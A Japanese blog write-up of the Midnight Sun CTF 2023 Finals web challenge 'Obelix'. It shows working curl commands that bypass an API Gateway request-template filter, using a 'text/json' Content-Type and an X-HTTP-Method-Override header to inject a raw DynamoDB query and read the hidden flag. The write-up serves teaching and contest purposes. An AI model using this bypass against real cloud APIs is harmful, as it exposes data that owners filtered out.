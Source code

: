 ```yaml
---
title: "Midnight Sun CTF 2023 Finals - Obelix"
date: 2023-09-03T00:00:00Z
type: post
---
```


Midnight Sun CTF 2023 の Finals に参加してきました。

ストックホルムに行ったので色々と観光して回ったのですが、それはまた気分が乗ったら書こうと思います。

総じて楽しい CTF だったのですが、Web カテゴリの問題で「Obelix」という問題が面白かったので紹介します。

問題内容としては以下の CloudFormation のファイルが配布されて、DynamoDB からフラグを取ってこいというもの。

配布ファイル: <https://gist.github.com/tyage/cf1d2221720776ce3c5562e14189b732>

ファイルからは DynamoDB のテーブル定義の他、DynamoDB にクエリを投げることのできる API Gateway が確認できます。

外部からアクセスできる API としては `/prod/movies/:moviename` からアクセスできる `MovieNameMethodGet` があり、これを通じてDynamoDBないのデータを検索することができます。
DynamoDB に送信するクエリを定義した RequestTemplates には FLAG の一部である「midnight」を含むデータが出力されないようなフィルターが設定されています。

```yaml
MovieNameMethodGet:
  Type: "AWS::ApiGateway::Method"
  Properties:
    RestApiId: !Ref Api
    ResourceId: !Ref MovieNameResource
    HttpMethod: GET
    ApiKeyRequired: false
    AuthorizationType: NONE
    RequestParameters:
      method.request.path.moviename: true
    Integration:
      Type: AWS
      Credentials: !GetAtt APIGatewayRole.Arn
      IntegrationHttpMethod: POST
      Uri: !Sub "arn:aws:apigateway:${AWS::Region}:dynamodb:action/Query"
      RequestParameters:
        integration.request.path.moviename: method.request.path.moviename
      RequestTemplates:
        application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
      IntegrationResponses:
        - StatusCode: "200"
          ResponseParameters:
            method.response.header.Access-Control-Allow-Methods: "'GET,OPTIONS'"
            method.response.header.Access-Control-Allow-Origin: "'*'"
    MethodResponses:
      - StatusCode: "200"
        ResponseParameters:
          method.response.header.Access-Control-Allow-Methods: false
          method.response.header.Access-Control-Allow-Origin: false
```

そのため、API を叩いて見ても FLAG らしい文字列は出力されません。

```bash
$ curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers

{"Count":1,"Items":[{"director":{"S":"Iain Softley"},"moviename":{"S":"hackers"},"image":{"S":"https://static.wikia.nocookie.net/soundeffects/images/b/b6/Hackers_%281995%29.jpg/revision/latest?cb=20200220043404"},"movielength":{"S":"107"},"posterpos":{"S":"0% 21%"},"year":{"S":"1995"},"description":{"S":"In 1988, Dade 'Zero Cool' Murphy (age 11) is arrested and charged with crashing 1,507 systems in one day and causing a single-day 7-point drop in the New York Stock Exchange. Upon conviction, he is banned from owning or operating computers or touch-tone telephones until his 18th birthday."},"id":{"S":"J0C63G8DCYcF6MA="},"color":{"S":"#a50000b3"}}],"ScannedCount":2}
```

この時点で API Gateway をよく知っている人なら問題に気づくのかなとも思うのですが、私はよく分からなかったのでとりあえずデプロイして試してみることにしました。
API Gateway の `MovieNameMethodGet` リソースの Integration Request セクションを眺めてみたところ、`All request bodies will be passed through to the integration endpoint.` という警告が表示されていることに気づきました。

![screenshot1.png](./screenshot1.png)

要は、テンプレートで定義されていない Content-Type のリクエストが送信されると、リクエストがそのまま DynamoDB に送信されてしまうようなのです。
また、画面上では警告しているものの、この設定はデフォルトの設定なので CloudFormation ファイル上には関連する内容の記載がありません。

[Integration passthrough behaviors - Amazon API Gateway](https://docs.aws.amazon.com/apigateway/latest/developerguide/integration-passthrough-behaviors.html)

今回は `application/json` 以外の Content-Type が利用できるので、`Content-Type: text/json` を設定することでフィルターを無視して任意のクエリを DynamoDB へ送りつけることが可能です。

ここまでくればほぼ解けたようなものなのですがもう少しだけやることがあります。
`MovieNameMethodGet` は GET メソッドしか受け付けていないため、GET のままリクエストボディを設定する必要があるのですが、素直にそれをやると怒られてしまいます。

```bash
$ curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -X GET -H 'Content-Type: text/json'  --data '{}'

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<HTML><HEAD><META HTTP-EQUIV="Content-Type" CONTENT="text/html; charset=iso-8859-1">
<TITLE>ERROR: The request could not be satisfied</TITLE>
</HEAD><BODY>
<H1>403 ERROR</H1>
<H2>The request could not be satisfied.</H2>
...
```

こういったときは `X-HTTP-Method-Override` が便利ですよね。
(あのヘッダの名前なんだったっけな～と思い出そうとしていたら icchy がシュッと答えてくれた。)
これで CloudFront に怒られずにリクエストボディを設定することができ、無事に FLAG を得ることができました。

```bash
$ curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'

{"Count":2,"Items":[{"director":{"S":"Iain Softley"},"moviename":{"S":"hackers"},"image":{"S":"https://static.wikia.nocookie.net/soundeffects/images/b/b6/Hackers_%281995%29.jpg/revision/latest?cb=20200220043404"},"movielength":{"S":"107"},"posterpos":{"S":"0% 21%"},"year":{"S":"1995"},"description":{"S":"In 1988, Dade 'Zero Cool' Murphy (age 11) is arrested and charged with crashing 1,507 systems in one day and causing a single-day 7-point drop in the New York Stock Exchange. Upon conviction, he is banned from owning or operating computers or touch-tone telephones until his 18th birthday."},"id":{"S":"J0C63G8DCYcF6MA="},"color":{"S":"#a50000b3"}},{"director":{"S":"avlidienbrunn"},"moviename":{"S":"hackers"},"image":{"S":"avlidienbrunn"},"movielength":{"S":"1337"},"posterpos":{"S":"0% 0%"},"year":{"S":"1337"},"description":{"S":"midnight{wh4t_t3h_fr1CK_h0w_d1d_j00_r33d_th@t_1_HaD_a_fILTer???}"},"id":{"S":"J0C69FonCYcFlNA="},"color":{"S":"#ffffff"}}],"ScannedCount":2}
```

FLAG: `midnight{wh4t_t3h_fr1CK_h0w_d1d_j00_r33d_th@t_1_HaD_a_fILTer???}`

API Gateway をフィルタ代わりに利用するとこういう問題が起きるというのは知らなかったので素直に勉強になりました。

ちなみにこの問題はなかなか解くチームが現れず、しばらく誰も解けなかったらヒントが出されると予告されていたのですが、ヒントが出される前に一番乗りで解くことができたのでよかったです。
(最終的に解けたのは 15 チーム中 3 チームでした。)

